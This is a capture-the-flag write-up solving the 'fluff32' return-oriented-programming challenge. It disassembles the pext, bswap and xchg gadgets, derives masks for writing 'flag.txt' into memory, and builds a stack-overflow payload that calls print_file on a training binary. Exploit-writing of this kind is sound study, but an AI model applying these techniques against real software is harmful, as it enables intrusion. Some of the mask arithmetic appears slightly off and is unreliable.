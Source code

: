 # fluff32
Almost same as problem write4, there is a function print_file in libfluff.so, we only need set the filename such as "flag.txt" into argument, nad call the function. But the only difference is that there is no suitable gadget in fluff binary. One way is to use the gadget in libfluff.so, and another way according to the hint is to use gadget in function questionableGadgets.

Check the binary security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, then write data into data section is possible.

Check the function questionableGadgets:
```
0x08048543 <+0>:	mov    eax,ebp
0x08048545 <+2>:	mov    ebx,0xb0bababa
0x0804854a <+7>:	pext   edx,ebx,eax
0x0804854f <+12>:	mov    eax,0xdeadbeef
0x08048554 <+17>:	ret    
0x08048555 <+18>:	xchg   BYTE PTR [ecx],dl
0x08048557 <+20>:	ret    
0x08048558 <+21>:	pop    ecx
0x08048559 <+22>:	bswap  ecx
0x0804855b <+24>:	ret    
0x0804855c <+25>:	xchg   ax,ax
0x0804855e <+27>:	xchg   ax,ax
```
There are three gadgets in the function. Read the instructions individually. The instructions pext, xchg and bswap can be combined to write data into memory location.
```
...
mov    eax,ebp
mov    ebx,0xb0bababa
pext   edx,ebx,eax
mov    eax,0xdeadbeef
ret 
# pext will use eax as a mask to copy ebx value to edx. Each bit in eax if is 1, will copy the ebx value align to low bit, if bit is 0, will ignore the value, the rest bit will be set to 0. We can control eax through pop ebp, and using pext instruction, we can set value we want into edx(dl) register.
...
```
```
...
0x08048558 <+21>:	pop    ecx
0x08048559 <+22>:	bswap  ecx
0x0804855b <+24>:	ret  
# bswap can swap bits order in ecx. In this gadget, we can control ecx value.
...
```
```
...
0x08048555 <+18>:	xchg   BYTE PTR [ecx],dl
0x08048557 <+20>:	ret 
# xchg will exchange value between [ecx] and dl, which means we write the value we want into certain memory location. Since we can control ecx through previous gadget.
...
```
Using these three gadgets, we can first control ebp value, and ebp value will be set to eax, through pext, we set each byte in "flag.txt" into edx(dl), and control ecx to address in data section, finally, use xchg to exchange the dl value into data section.

We also find some useful gadgets in binary:
```
...
0x080485bb: pop ebp; ret; (gadget1) # control ebp
...
```
Since xchg instruction can only store one byte to memory, we need to move byte "flag.txt" inividually, and since ebx is fixed, we can only control eax, each pext instruction should ouput each byte in "flag.txt", then we can evaluate eax value, according to the pext instruction detail.

```
# ebx = 0xb0bababa
#                                             
#                          1011 1010 1011 1010 # baba
#                          
#                          0100 1011 0100 1011 # f_mask(0x4b4b)
#                                    0110 0110 # f(0x66)
#
#                               0100 1101 1101 # l_mask(0x6dd)
#                                    0110 1100 # l(0x6c)
#
#                          0101 1101 0100 0110 # a_mask(0x5d46)  
#                                    0110 0001 # a(0x61)
#
#                          0100 1011 0101 1010 # g_mask(0x4b5a)   
#                                    0110 0111 # g(0x67)
#
#                               0101 1101 1011 # ._mask(0x5db)
#                                    0010 1110 # .(0x2e)
#
#                          0100 1010 1100 1101 # t_mask(0x4acd)
#                                    0111 0100 # t(0x74)
#
#                          0101 1010 1100 0101 # x_mask(0x5ac5)
#                                    0111 1000 # x(0x78)
```
Each mask will be:
```
f_mask = 0x04b4b
l_mask = 0x06dd
a_mask = 0x05d46
g_mask = 0x04b5a
dot_mask = 0x05db
t_mask = 0x04acd
x_mask = 0x05ac5
```
We can build payload:
```
payload = 'A'*44
payload += p32(bswap) + p32(bss, endian='big') 
# pop ecx, since ecx will be swaped, we use big endian directly.
payload += p32(gadget1) + p32(f_mask) + p32(pext) + p32(xchg)
# pop mask into ebp, and do pext and xchg
```
Same pattern for every byte in "flag.txt".

Finally, jump to print_file and set argument. Since the stack structure will be ebp, ret, parameter1... We need to add offset for ret space.
```
payload += p32(print_file) + 'A'*4 + p32(bss)
# jump to print_file, and push "flag.txt" address bss into stack. 
```
Run the exploit.py, obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
